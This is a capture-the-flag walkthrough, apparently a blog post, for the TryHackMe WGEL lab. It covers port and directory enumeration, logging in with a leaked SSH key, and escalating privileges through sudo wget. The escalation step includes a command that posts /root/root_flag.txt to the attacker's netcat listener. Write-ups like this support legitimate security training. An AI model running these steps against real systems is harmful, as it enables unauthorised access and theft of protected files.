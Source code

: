 ```yaml
---
layout: post
title: "☁️ TryHackMe - WGEL CTF"
date: 2025-07-24 10:00:00 +0200
categories: [writeups]
tags: [ctf, tryhackme, pentest, easy]
pin: false
toc: true
comments: true
---
```


<div style="text-align: center;">
  <img src="https://cdn.hashnode.com/res/hashnode/image/upload/v1667861213814/MWfKWU2kh.png" alt="WGEL CTF" width="300">
</div>


## Introduction

| Description                       | Category                       | Level | Link                               |     |     |     |     |     |     |
| --------------------------------- | ------------------------------ | ----- | ---------------------------------- | --- | --- | --- | --- | --- | --- |
| Can you exfiltrate the root flag? | Enumeration, web, ssh, privesc | Easy  | https://tryhackme.com/room/wgelctf |


> Have fun with this easy box.
{: .prompt-info }

<br>

## 👨‍💼 User\_flag

First reflex when I start a CTF, I always start network scan on the target with \*\*nmap \*\*. This allows me to see all the active services on the target, this will allow me to infiltrate it.

```bash
nmap -p- -A 10.10.57.163
```

| OPTIONS | Description                                |
| ------- | ------------------------------------------ |
| `-p-`   | Scan ports from 1 through 65535 (all)      |
| `-A`    | Detection of OS and software versions used |

<br>

![screen 1](https://cdn.hashnode.com/res/hashnode/image/upload/v1667829270280/S72YGl_jJ.png)]

I see that an Apache server is running on port 80, from my browser we can see the default page.

![screen 2](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835292581/aJa5T-a8t.png  )

After checking the source code, we can identify a potential user --&gt; **Jessie** Let's put it aside, it will interest us for the continuation

> **Note:** It is essential to take notes on all information, loot found during the CTF.
{: .prompt-tip }


![screen 3](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835611781/YgLwravJ3.png )

I will now run an enumeration on the web page to list all hidden directories/files I use \*\*FerroxBuster \*\*which is nicer but a \*\*dirb \*\*will do very well

```bash
└─$ feroxbuster -u http://10.10.57.163 -w /usr/share/wordlists/dirb/common.txt
```

| OPTIONS | Description          |
| ------- | -------------------- |
| `-u`    | The target URL       |
| `-w`    | Path to the wordlist |

![screen 4](https://cdn.hashnode.com/res/hashnode/image/upload/v1667836117801/jHHRzm1OT.png )

We found a hidden page that matches **[http://10.10.57.163/sitemap/.ssh/](Link)**

Let's see what's there, HOOO surprise a ssh key

![screen 5](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838342755/XF4Xxtxji.png)

Download the ssh key and change the rights on it with chmod

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ wget http://10.10.57.163/sitemap/.ssh/id_rsa
--2022-11-07 17:10:46--  http://10.10.57.163/sitemap/.ssh/id_rsa
Connexion à 10.10.57.163:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1675 (1,6K)
Sauvegarde en : « id_rsa.1 »

id_rsa.1       100%[=======================>]   1,64K  --.-KB/s    ds 0s      

2022-11-07 17:10:46 (198 MB/s) — « id_rsa.1 » sauvegardé [1675/1675]

┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ chmod 600 id_rsa
```

> After downloading a private SSH key (`id_rsa`), you **must** restrict its permissions<br>
> The `chmod 600 id_rsa` command gives **read and write permissions only to the owner** `6` :<br>
> read `4` + write `2`, and **no permissions** to group or others `0`
{: .prompt-warning }


Ok now, let's try to connect with ssh

```bash
ssh -i id_rsa jessie@10.10.57.163
```

| OPTIONS  | Description                                                                                |
| -------- | ------------------------------------------------------------------------------------------ |
| `-i`     | Selects a file from which the identity (private key) for RSA or DSA authentication is read |
| `jessie` | Remember this is the user found on the source code of the default web page                 |


![screen 6](https://cdn.hashnode.com/res/hashnode/image/upload/v1667837733101/IWr-vmnH9.png)

Let's find the flag from Jessie's account

![screen 7](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838734846/4yNYdftHHt.png)

First objective achieved, we now have the user flag, let's go to the root flag

<br>

## 💀 Root\_flag

Once connected as a user, my next goal is to increase my privileges, let's check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
```
| OPTIONS | Description                                                                                                                                                                         |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-l`    | If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. |

![screen 8](https://cdn.hashnode.com/res/hashnode/image/upload/v1667839805405/e-jImgSH6.png)

We can see that wget is executable as root without password.

Let's go to [https://gtfobins.github.io/gtfobins/wget/](Link)


Let's launch our listener from the attacking machine in order to get the content of the file we are interested in (root\_flag.txt) and execute the wget command from the target

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ nc -lvnp 9001
_________________________________________________________

jessie@CorpOne:~$ sudo -u root /usr/bin/wget --post-file=/root/root_flag.txt 10.9.13.192:9001
```

![screen 9](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840461095/op7kMZ4Lt.png)

![screen 10](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840594374/rxFUnq4oS.png)

🏁 We have now obtained our last root flag. I hope you enjoyed this first CTF write-up, feel free to share it.


> 🛠 All documentation for tools mentioned or used :<br>
> nmap <https://nmap.org/book/man.html><br>
> Ferroxbuster <https://epi052.github.io/feroxbuster-docs/docs/><br>
> dirb <https://www.kali.org/tools/dirb/><br>
> ssh <https://www.kali.org/tools/openssh/><br>
> sudo <https://www.kali.org/tools/sudo/>
{: .prompt-info }